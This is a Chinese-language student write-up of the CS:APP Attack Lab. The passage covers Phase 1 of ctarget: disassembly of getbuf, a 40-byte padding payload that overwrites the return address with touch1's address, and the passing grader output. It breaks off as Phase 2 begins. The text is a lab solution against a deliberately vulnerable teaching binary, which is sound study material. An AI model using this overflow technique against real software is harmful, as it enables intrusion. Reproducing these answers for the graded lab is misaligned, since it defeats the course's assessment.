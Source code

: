 # Attack Lab - JettyCoffee
## 实验要求
实验主要操作三个文件：  
`ctarget`：用于代码注入攻击  
`rtarget`：用于rope攻击  
`hex2raw`：将16进制的书数据转化为对应的ascii码字符
## 答案与成功的截图以拷贝文本，粘贴进Markdown的形式展现。
## Phase1 - CTarget
> 在第一个实验中，你不需要注入新的汇编代码，你只需要通过输入字符串，使得ctarget程序去执行已经存在的函数touch1函数。
> ctarget的函数调用链：main() -> test() -> getbuf() -> Gets()
> 字符串通过Gets()函数进行读取。

解决办法：
首先观察`getbuf`函数：可以看出`BUFFER_SIZE`的大小是`40`字节（`0x28`）

```0
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp  # rsp = 0x5561dca0 #for string = 0x5561dc78
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
那么主要的思路便是找到touch1函数的起始地址，然后在getbuf执行完ret后跳转到touch1  
而touch1函数的起始位置是`0x4017c0`  
那么需要注入的字符串为：

```j0
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
c0 17 40 00 00 00 00 00  // touch1 address: 0x4017c0
```
将字符串保存为touch1.txt，并执行`./hex2raw < touch1.txt | ./ctarget -q`
得到返回结果
```0
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 C0 17 40 00 00 00 00 00
```
## Phase2 - CTarget
> 第二题的需求与第一题相似，区别在于需要在注入的字符串中加入代码  
